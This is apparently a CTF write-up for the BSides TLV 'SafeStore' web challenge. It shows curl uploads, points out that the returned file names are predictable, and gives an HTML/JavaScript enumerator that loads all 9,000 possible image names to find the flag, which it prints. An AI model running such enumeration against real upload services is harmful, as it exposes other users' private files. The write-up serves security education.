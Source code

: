 # SafeStore

 * Category: Web
 * 150 Points
 * Solved by the JCTF Team

## Description

> After chasing an adversary, he decided to put the flag inside this safestore app designed by fellow hackers. Can you find the hidden flag?

## Solution

The attached website is an image upload service:

> SafeStore - Free Image Upload Online
> 
> Upload your image to our service and get a link to share with rest of the world!
> Free of charge. Images kept on our servers for 7 days.

Let's try to upload a few images:

```console
┌──(user@kali)-[/media/sf_CTFs/bsides/SafeStore]
└─$ curl -X POST https://bstlv24-safe-store.chals.io/upload -F "upload=@out-001.gif"
{"message":"File uploaded!","link":"uploads/app_pub_9126.gif"}

┌──(user@kali)-[/media/sf_CTFs/bsides/SafeStore]
└─$ curl -X POST https://bstlv24-safe-store.chals.io/upload -F "upload=@out-001.gif"
{"message":"File uploaded!","link":"uploads/app_pub_9826.gif"}

┌──(user@kali)-[/media/sf_CTFs/bsides/SafeStore]
└─$ curl -X POST https://bstlv24-safe-store.chals.io/upload -F "upload=@out-001.gif"
{"message":"File uploaded!","link":"uploads/app_pub_1050.gif"}
```

In the response, we receive the path to the uploaded image. We can see that the path is
relatively predictable, with the difference between paths only being the 4-digit number appended
to the file name.

It should be very easy to just enumerate all server files using a similar template and
trying to view other users images. We can do this with a simple HTML file:

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Image Leaker</title>
</head>
<body>
    <script>
        function loadImages() {
            for (let i = 1000; i <= 9999; i++) {
                const img = document.createElement('img');
                img.src = `https://bstlv24-safe-store.chals.io/uploads/app_pub_${i}.gif`;
                img.onerror = () => {
                    img.style.display = 'none';
                };
                document.body.appendChild(img);
            }
        }
        window.onload = loadImages;
    </script>
</body>
</html>
```

Browsing through the images (luckily, before evil users might have uploaded false flags), we
find the flag hidden under `app_pub_8745.gif`: `BeSidesTLV{Guess4bleNam3sIsCla22ic}`.